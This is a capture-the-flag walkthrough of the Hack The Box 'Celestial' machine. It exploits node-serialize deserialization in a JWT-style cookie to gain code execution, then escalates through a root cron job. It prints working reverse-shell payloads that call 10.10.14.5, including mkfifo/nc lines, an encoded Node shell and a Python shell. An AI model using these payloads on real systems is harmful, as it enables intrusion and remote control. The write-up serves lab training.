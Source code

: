## Celestial

https://app.hackthebox.com/machines/Celestial

### User Access

Ports: 10.10.10.85:3000, Node.js Express framework.

JWT Cookie:
```
{
  "username": "Dummy",
  "country": "Idk Probably Somewhere Dumb",
  "city": "Lametown",
  "num": "2",
  "alg": "HS256"
}
```

Changing "num" to "3", we get this error:
```
SyntaxError: Unexpected token {
    at Object.parse (native)
    at Object.exports.unserialize (/home/sun/node_modules/node-serialize/lib/serialize.js:62:16)
    at /home/sun/server.js:11:24
    at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/sun/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/sun/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)
    at /home/sun/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/sun/node_modules/express/lib/router/index.js:335:12)
    at next (/home/sun/node_modules/express/lib/router/index.js:275:10)
```

Searching for NodeJS deserialization, we find two blogs:  
[Insecure Deserialization on NodeJS for RCE](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)  
[Node JS Insecure Deserialization](https://medium.com/@chaudharyaditya/insecure-deserialization-3035c6b5766e)  

On the last blog, we see how to execute RCE.
```
# Normal request
{ "username": "Aditya", "country": "india", "city": "Delhi" }

# Payload
{"username": "_$$ND_FUNC$$_function (){ return 'hi'; }()" ,"country":"india","city":"Delhi"}
```

Our exploit:
```
# Normal request
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city": "Lametown","num": "2"}

# Payload
{"username": "_$$ND_FUNC$$_function (){ return 'hi'; }()","country": "Idk Probably Somewhere Dumb","city": "Lametown","num": "2"}
```

<br>

We can use this script to generate serialized payloads:
```javascript
var serialize = require('node-serialize');

/* # Testing
x = {
test : function(){ return 'hi'; }
};
*/

// Reverse Shell
x = {
test : function(){
  require('child_process').execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 4444 >/tmp/f", function puts(error, stdout, stderr) {});
}
};

console.log("Serialized: \n" + serialize.serialize(x));
```

This is the output:
```
{"test":"_$$ND_FUNC$$_function(){\n  require('child_process').execSync(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 4444 >/tmp/f\", function puts(error, stdout, stderr) {});\n}"}
```

BUT, we need to add "()" to the payload for the function execute itself as explained on the first blog.

Final payload:
```
{"username": "_$$ND_FUNC$$_function(){\n  require('child_process').execSync(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 4444 >/tmp/f\", function puts(error, stdout, stderr) {});\n }()","country": "Idk Probably Somewhere Dumb","city": "Lametown","num": "2"}
```

On the walkthrough, this payloads works as well:
```
{"username":"_$$ND_FUNC$$_require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 1234 >/tmp/f', function(error, stdout, stderr) {console.log(stdout) })","country":"Lameville","city":"Lametown","num":"2"}
```

<br>

#### Extra
You can use [nodejsshell](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) to generate a more stable reverse shell in node.
```python
python2 nodejsshell.py 10.10.14.5 4444
```

Put the output on cookie and add IIFE brackets () after the function.
```
# Payload
{"rce":"_$$ND_FUNC$$_function (){OUTPUT}()"}

# Cookie
{"username":"_$$ND_FUNC$$_function (){OUTPUT}()","country":"Idk Probably Somewhere Dumb","city": "Lametown","num": "2"}

# Example
{"username":"_$$ND_FUNC$$_function (){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,53,34,59,10,80,79,82,84,61,34,52,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()","country":"Idk Probably Somewhere Dumb","city": "Lametown","num": "2"}
```

The root cause is that it was using `eval()` internally for deserialization.
```node
var express = require('express');
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var app = express();
app.use(cookieParser())
 
app.get('/', function(req, res) {
 if (req.cookies.profile) {
   var str = new Buffer(req.cookies.profile, 'base64').toString();
   var obj = serialize.unserialize(str);
   if (obj.username) { 
     var sum = eval(obj.num + obj.num);
     res.send("Hey " + obj.username + " " + obj.num + " + " + obj.num + " is " + sum);
   }else{
     res.send("An error occurred...invalid username type"); 
   }
}else {
     res.cookie('profile', "eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ==", {
       maxAge: 900000,
       httpOnly: true
     });
 }
 res.send("<h1>404</h1>");
});
app.listen(3000);
```

<br>

### Privilege Escalation
Groups:  
`uid=1000(sun)gid=1000(sun)groups=1000(sun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)`

Being part of adm group, we can search for logs.

On /var/log/syslog, we see that root is executing a script that we have write permissions.
```
python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py
```

Edit script.py to a reverse shell.
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")
```

You could use `grep CRON syslog` to inspect only cronjobs on logs.
